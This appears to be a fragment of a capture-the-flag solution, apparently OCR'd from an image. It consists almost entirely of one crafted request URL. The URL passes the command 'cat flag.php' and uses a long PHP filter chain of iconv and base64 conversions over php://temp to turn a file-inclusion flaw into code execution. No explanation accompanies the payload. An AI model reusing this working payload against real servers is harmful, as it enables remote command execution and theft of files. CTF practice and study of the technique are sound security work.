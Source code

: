 /?0=cat flag.php&file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
